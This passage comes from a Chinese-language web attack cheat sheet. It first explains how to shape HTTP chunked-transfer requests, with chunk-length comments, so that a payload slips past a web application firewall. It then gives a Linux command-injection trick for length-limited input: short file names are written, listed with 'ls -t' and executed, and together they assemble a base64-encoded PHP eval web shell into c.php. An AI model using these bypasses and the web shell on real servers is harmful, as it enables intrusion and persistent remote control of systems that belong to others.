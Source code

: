 这种形式,且长度值要将两个空行的长度计算在内(空行长度为2).

第3块,即数据开始部分需满足
```
长度值
空行
数据
```

形式,且需将空行计算在内.

第7块即分割边界结束部分,需满足
```
长度值
空行
分割结束符
空行
```

形式,且计算空行长度在内.

第8块需满足
```
0空格
空行
空行
```
形式.如果不同时满足这四块的形式要求,payload 将不会生效.

**使用注释扰乱分块数据包**

通过 [RFC7230](https://tools.ietf.org/html/rfc7230) 阅读规范发现分块传输可以在长度标识处加上分号 `";"` 作为注释,如:
```
9;kkkkk
1234567=1
4;ooo=222
2345
0
(两个换行)
```

---

# 长度

**Linux**
```
w>hp\\
w>c.p\\
w>d\>\\
w>\ -\\
w>e64\\
w>bas\\
w>7\|\\
w>XSk\\
w>Fsx\\
w>dFV\\
w>kX0\\
w>bCg\\
w>XZh\\
w>AgZ\\
w>waH\\
w>PD9\\
w>o\ \\
w>ech\\
ls -t>ls
sh ls
```
